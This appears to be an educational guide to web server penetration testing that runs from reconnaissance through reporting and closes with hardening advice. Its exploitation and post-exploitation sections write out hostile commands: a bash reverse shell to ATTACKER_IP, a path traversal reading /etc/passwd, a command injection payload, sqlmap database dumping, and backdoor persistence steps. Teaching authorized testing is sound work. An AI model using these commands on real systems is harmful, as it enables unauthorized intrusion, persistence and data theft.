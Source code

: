 # A Comprehensive Guide to Web Server Penetration Testing

**Disclaimer: This guide is for educational and security awareness purposes only. Unauthorized access to computer systems is illegal. Always obtain explicit, written permission before testing any system you do not own.**

## Overview of the Methodology

A structured approach is crucial for a successful and thorough assessment. The process mimics the cyber kill chain and is broken down into the following phases:

1.  **Information Gathering (Reconnaissance)**
2.  **Scanning & Enumeration**
3.  **Vulnerability Assessment**
4.  **Exploitation**
5.  **Post-Exploitation**
6.  **Reporting & Cleanup (Covering Tracks is not typically done in ethical tests)**

---

## Phase 1: Information Gathering (Reconnaissance)

The goal is to learn everything possible about the target with minimal interaction.

### Passive Reconnaissance

*   **WHOIS Lookup:** `whois target.com`
    *   **Purpose:** Discovers domain registration details (registrant, contact info, name servers).
*   **DNS Enumeration:**
    *   **Tools:** `dig`, `nslookup`, `sublist3r`, `Amass`, `Shodan`
    *   **Purpose:** Discovers subdomains (`dev.target.com`, `api.target.com`) and associated IP addresses. Techniques include brute-forcing and checking DNS records (A, AAAA, MX, TXT).
*   **Search Engine Dorking:**
    *   **Example Queries:** `site:target.com ext:log`, `site:target.com intitle:"index of"`, `site:target.com "password"`
    *   **Purpose:** Finds exposed files, directories, and sensitive information indexed by search engines.
*   **Archive Services:**
    *   **Tool:** Wayback Machine (`web.archive.org`)
    *   **Purpose:** Views historical versions of the website, which may reveal old endpoints or sensitive info now removed from the live site.

### Active Reconnaissance

*   **Banner Grabbing:**
    *   **Tool:** `Netcat` - `nc target.com 80`, then type `HEAD / HTTP/1.0<enter><enter>`
    *   **Tool:** `cURL` - `curl -I http://target.com`
    *   **Purpose:** Identifies the web server software (Apache, Nginx, IIS) and its version from the HTTP headers.
*   **Technology Identification:**
    *   **Tool:** `Wappalyzer` (Browser Extension), `WhatWeb` (`whatweb -a3 target.com`)
    *   **Purpose:** Fingerprints the technologies used on the front-end and back-end (e.g., PHP, ASP.NET, WordPress, React).

---

## Phase 2: Scanning & Enumeration

Probing the target to map the attack surface and discover accessible services.

*   **Port Scanning:**
    *   **Tool:** `Nmap` (Network Mapper)
    *   **Command:** `nmap -sS -sV -sC -O -p- -A -T4 target.com`
        *   `-sS`: SYN Stealth Scan.
        *   `-sV`: Version detection.
        *   `-sC`: Run default scripts.
        *   `-p-`: Scan all 65,535 ports.
        *   `-A`: Enable OS detection, version detection, script scanning, and traceroute.
    *   **Purpose:** Finds all open ports and services running on the target (e.g., SSH, FTP, Database ports).
*   **Directory & File Bruteforcing:**
    *   **Tools:** `Gobuster`, `Dirbuster`, `ffuf`
    *   **Command (Gobuster):** `gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak`
    *   **Purpose:** Discovers hidden directories (`/admin`, `/backup`), files (`config.php.bak`), and endpoints.

---

## Phase 3: Vulnerability Assessment

Analyzing the gathered data to pinpoint potential weaknesses.

*   **Automated Scanning:**
    *   **Tool:** `Nikto` - `nikto -h http://target.com`
    *   **Tool:** `Nuclei` - `nuclei -u http://target.com -t /path/to/templates/`
    *   **Purpose:** Quickly identifies known vulnerabilities, misconfigurations, and outdated software.
*   **Manual Inspection:**
    *   **Review:** Analyze all input forms (login, search, upload), cookies, and application logic.
    *   **Purpose:** Finds complex vulnerabilities that automated tools miss, such as business logic flaws and insecure direct object references (IDOR).

---

## Phase 4: Exploitation

Leveraging identified vulnerabilities to gain initial access.

### Common Attack Vectors

*   **Misconfigurations:**
    *   **Default Credentials:** Trying `admin:admin` on found login panels.
    *   **Directory Traversal:** `http://target.com/load?file=../../../../etc/passwd`
*   **Software Vulnerabilities:**
    *   **Searching Exploits:** Use `searchsploit Apache 2.4.49` or Metasploit to find and use public exploits for outdated software.
*   **Web Application Attacks:**
    *   **SQL Injection (SQLi):** `sqlmap -u "http://target.com/page?id=1" --dbs`
    *   **File Upload Bypass:** Upload a malicious web shell (e.g., a `.php` file disguised as an image).
    *   **Local File Inclusion (LFI):** Include and execute local files, often leading to Remote Code Execution (RCE) by poisoning log files.
    *   **Command Injection:** `http://target.com/ping?ip=8.8.8.8; whoami`

### Gaining a Foothold: The Reverse Shell

The typical goal is to achieve RCE and get a shell connection back to your machine.

1.  **Set up a listener on your attack machine:**
    ```bash
    nc -nvlp 4444
    ```
2.  **Execute a reverse shell command on the target** (via a vulnerability like SQLi, File Upload, or Command Injection). Example for Linux:
    ```bash
    bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'
    ```
3.  If successful, you will receive an interactive shell on your listener.

---

## Phase 5: Post-Exploitation

Actions taken after gaining initial access to expand control.

*   **Privilege Escalation:**
    *   **Linux:** Use `LinPEAS` script to automatically look for misconfigurations, SUID binaries, cron jobs, and kernel exploits.
    *   **Windows:** Use `WinPEAS` or `PowerSploit` modules for similar checks.
*   **Maintaining Persistence:**
    *   Install a backdoor (e.g., add an SSH public key to `~/.ssh/authorized_keys`).
    *   Create a reverse shell service or scheduled task.
*   **Pivoting:**
    *   Use the compromised host as a relay to attack other systems on the internal network.
*   **Data Exfiltration:**
    *   Securely copy sensitive data found during the assessment for the final report.

---

## Phase 6: Reporting

The most critical phase for an ethical hacker. Documentation is key.

*   **Executive Summary:** High-level overview for management.
*   **Technical Findings:** Detailed breakdown of each vulnerability.
    *   **Finding Title:** (e.g., "Critical: SQL Injection on /user?id Parameter")
    *   **Risk Rating:** (e.g., Critical, High, Medium, Low)
    *   **Vulnerability Description:** What is the issue?
    *   **Proof of Concept (PoC):** Step-by-step instructions to reproduce the finding.
    *   **Remediation Steps:** Clear advice on how to fix the issue.
*   **Appendices:** Include full tool output (Nmap, Nikto scans) for technical readers.

---

## Essential Tool Cheat Sheet

| Task | Primary Tools |
| :--- | :--- |
| **Reconnaissance** | `whois`, `dig`, `sublist3r`, `Wappalyzer` |
| **Scanning** | `Nmap`, `Gobuster`/`Dirbuster` |
| **Vulnerability Scanning** | `Nikto`, `Nuclei`, `Burp Suite` |
| **Exploitation** | `Burp Suite`, `sqlmap`, `Metasploit` |
| **Post-Exploitation** | `LinPEAS`/`WinPEAS`, `Netcat` |

## Defense Strategies: How to Secure a Web Server

1.  **Patch Management:** Keep the OS, web server, and all applications updated.
2.  **Hardening:** Follow security benchmarks (e.g., CIS Benchmarks). Disable unnecessary services, use firewalls, and enforce the principle of least privilege.
3.  **Secure Configuration:** Remove default files, hide server banners, disable directory listings.
4.  **Input Validation:** Sanitize all user input on the server-side.
5.  **Web Application Firewall (WAF):** Deploy a WAF to filter malicious traffic.
6.  **Regular Audits:** Conduct periodic penetration tests and vulnerability assessments.